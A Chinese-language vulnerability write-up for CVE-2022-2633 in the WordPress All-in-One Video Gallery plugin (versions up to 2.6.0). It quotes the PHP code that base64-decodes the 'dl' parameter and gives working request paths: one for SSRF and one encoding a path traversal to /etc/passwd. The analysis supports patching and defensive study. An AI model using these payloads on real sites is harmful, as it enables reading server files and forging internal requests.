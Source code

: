# WordPress All-in-One Video Gallery video.php 任意文件读取漏洞 CVE-2022-2633

# WordPress All-in-One Video Gallery video.php 任意文件读取漏洞 CVE-2022-2633

## 漏洞描述

WordPress All-in-One Video 插件 Gallery video.php文件中存在SSRF以及任意文件读取漏洞，攻击者通过发送特定的请求包读取任意文件

## 漏洞影响

```
WordPress All-in-One Video Gallery <= 2.6.0
```

## 插件名称

```
All-in-One Video Gallery
```

https://downloads.wordpress.org/plugin/all-in-one-video-gallery.2.6.0.zip

## 漏洞复现

对比漏洞修复的文件找到出现漏洞的文件 wp-content/plugins/all-in-one-video-gallery/public/video.php

![image-20221017170543356](/images/202210171705476.png)

这里接收 dl 参数，dl 参数不为 数字类型时，参数将 base64 解码传入

```
		if ( is_numeric( $_GET['dl'] ) ) {
			$file = get_post_meta( (int) $_GET['dl'], 'mp4', true );
		} else {
			$file = base64_decode( $_GET['dl'] );
		}

		if ( empty( $file ) ) {
			die( esc_html__( 'Download file URL is empty.', 'all-in-one-video-gallery' ) );
           	exit;
        }
```

![image-20221017170604454](/images/202210171706536.png)

当传入的参数中不存在 http:// 或 https:// 时，参数 $formatted_path 的值改变

![image-20221017170622056](/images/202210171706133.png)

当 $formatted_path 为 url 时存在 SSRF漏洞，传入 base64编码 的目标URL就可以得到回显

```
/index.php/video/?dl=aHR0cHM6Ly93d3cuYmFpZHUuY29t
```

![image-20221017170640788](/images/202210171706868.png)

看向代码最后的片段，则存在任意文件读取漏洞

![image-20221017170655893](/images/202210171706975.png)

```
/index.php/video/?dl=Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

![image-20221017170708523](/images/202210171707604.png)

